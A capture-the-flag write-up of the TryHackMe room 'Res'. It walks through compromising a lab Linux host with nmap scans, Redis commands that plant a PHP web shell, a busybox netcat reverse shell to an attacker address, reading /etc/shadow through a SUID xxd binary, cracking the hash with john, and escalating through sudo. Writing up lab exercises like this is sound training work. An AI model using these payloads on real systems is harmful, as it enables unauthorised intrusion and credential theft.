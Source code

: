 ```yaml
---
title: "Res"
date: 2025-02-05
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Res
categories: [Tryhackme, Easy]
tags: [linux, dbms, redis, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Res</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/res">https://tryhackme.com/room/res</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Res.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.174.47             
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 04:14 EST
  Nmap scan report for 10.10.174.47
  Host is up (0.043s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  80/tcp   open  http
  6379/tcp open  redis

  Nmap done: 1 IP address (1 host up) scanned in 30.83 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 80,6379 10.10.174.47
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 04:15 EST
  Nmap scan report for 10.10.174.47
  Host is up (0.037s latency).

  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-title: Apache2 Ubuntu Default Page: It works
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  6379/tcp open  redis   Redis key-value store 6.0.7

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 7.42 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

Since the webserver displayed an `Apache2` default website, I conducted a Gobuster scan, but it didn’t reveal anything useful.

## Port 6379 Analysis

As nmap revealed a `redis` service running on port `6379`, I used the redis cli to connect to the server. Since redis uses a file-based structure, I was able to create a new file. I leveraged this to create a PHP webshell: 

```bash
10.10.3.94:6379> config set dir /var/www/html
	OK
10.10.3.94:6379> config set dbfilename shell.php
	OK
10.10.3.94:6379> set test "<?php system($_GET['cmd']);?>"
	OK
10.10.3.94:6379> save
	OK
```

This allowed me to successfully execute commands on the system:

![Command Execution](/assets/img/tryhackme/Res/thm_res_1.jpg)

Next, I generated a reverse shell using `busybox`:

```bash
http://10.10.3.94/shell.php?cmd=busybox nc [attackerip] 9001 -e sh
```

Netcat received the the reverse shell, after which I stabilized the session. From here I was able to collect the user flag:

```bash
www-data@ubuntu:/var/www/html$ cd /home
www-data@ubuntu:/home$ ls
	vianka
www-data@ubuntu:/home$ cd vianka/
www-data@ubuntu:/home/vianka$ ls
	redis-stable  user.txt
www-data@ubuntu:/home/vianka$ cat user.txt 
	thm{[removed]} 
```

## Privilege Escalation vianka

While performing manual privilege escalation techniques, I discovered an executable with the SUID bit set:

```bash
/usr/bin/xxd
```

I used xxd to read the `shadow` file which gave me the user hash from `vianka`:

```bash
$ LFILE=/etc/shadow
$ xxd "$LFILE" | xxd -r
	vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

On my local machine I created a file, pasted the hash in and ran it with `john` against the `rockyou.txt`:
```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash  
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[removed]       (vianka)     
1g 0:00:00:00 DONE (2025-02-13 05:02) 10.00g/s 20480p/s 20480c/s 20480C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Using the cracked password, I successfully logged in as `vianka`:
```bash
www-data@ubuntu:/home/vianka$ su vianka 
  Password: 
vianka@ubuntu:~$
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
vianka@ubuntu:~$ sudo -l
[sudo] password for vianka: 
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

From here I just needed to read the flag:
```bash
vianka@ubuntu:~$ sudo cat /root/root.txt
thm{[removed]}
```

solved! :)
